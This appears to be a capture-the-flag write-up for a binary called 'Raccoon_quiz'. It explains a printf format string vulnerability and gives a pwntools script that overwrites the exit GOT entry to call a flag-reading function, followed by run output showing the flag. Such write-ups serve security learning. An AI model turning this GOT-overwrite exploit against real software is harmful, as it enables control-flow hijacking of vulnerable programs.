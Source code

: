# Raccoon_quiz
This was a binary with a format string vulnerability. This was hinted in the announcement of the challenge, so I kinda knew what to look for in the program.

Opening the program up in GDB gave us a few functions to work with:
```
pwndbg> info functions 
All defined functions: 
Non-debugging symbols: 
0x00000000004005b0 _init 
0x00000000004005e0 _exit@plt 
0x00000000004005f0 puts@plt 
0x0000000000400600 printf@plt 
0x0000000000400610 read@plt 
0x0000000000400620 fgets@plt 
0x0000000000400630 open@plt 
0x0000000000400640 isoc99_scanf@plt 
0x0000000000400650 exit@plt 
0x0000000000400660 _start 
0x0000000000400690 _dl_relocate_static_pie 
0x00000000004006a0 deregister_tm_clones 
0x00000000004006d0 register_tm_clones 
0x0000000000400710 do_global_dtors_aux 
0x0000000000400740 frame_dummy 
0x0000000000400747 super_sneaky_function 
0x00000000004007a0 raccoon_quiz 
0x000000000040098b main 
0x00000000004009a0 libc_csu_init 
0x0000000000400a10 libc_csu_fini 
0x0000000000400a14 _fini
```
The functions of interest here are: `super_sneaky_function`, `main`, and `raccoon_quiz` I opened the program up in ghidra and found the format string vulnerability in the `raccoon_quiz` function. First you had to answer the questions with "A", "B", then "A" again. Then you could enter name and it would `printf` your name without a format string. This is where the format string vulnerability is.

Here is the spot in the function in ghidra:
```c
if (local_c == 3) { 
	puts("Congwats! You scored a 3/3. Please enter your name for the leaderboards!"); 
	isoc99_scanf("%*[^\n]"); 
	isoc99_scanf(&DAT_00400c78); 
	fgets(local_218,0x200,stdin); 
	printf("Good job "); 
	printf(local_218); }
```
We are going to exploit this to change the control flow of the function. I can see that at the end of the function it calls the `exit` function which means it's the first call to that function meaning it hasn't been loaded into the PLT when you are prompted to enter your name. This means that you can overwrite the GOT before it gets called so that when 	`exit` gets called, it loads a different function into the PLT. Looking at `super_sneaky_function` I can see that is the function we want to call because it opens up the flag file, reads it, and writes it to the screen. So we will take the addess of that function: `0x0000000000400747 super_sneaky_function` and overwrite the `exit` function with that address to change the control flow. Here is my script:
```python
elf = ELF("./raccoon_quiz")
addr = elf.got["exit"]
p.recv()
p.sendline("A")
p.recv()
p.sendline("B")
p.recv()
p.sendline("A")
p.recvline()
p.recvline()
p.recvline()
writes = {addr:0x400747}
payload = fmtstr_payload(6, writes)
p.sendline(payload)
p.interactive()
```
One thing I struggled with during this was the way the `fmtstr_payload` function built into pwntools dafaults to 32-bit, so it took me a while to figure out that I had to add `context(arch="amd64")` to the beginning of the expoit program in order for it to create a 64-bit payload.

Anyways, it looks like this when I run it.
```
Congwats! You scored a 3/3. 
Please enter your name for the leaderboards! 
Good job 
Goodbye! 
Wow! You sure are one sneaky raccoon! You can have the flag.
osu{tr4a5h_pr0gr4mm1ng_in_4_tr4sh_g4m3}
```
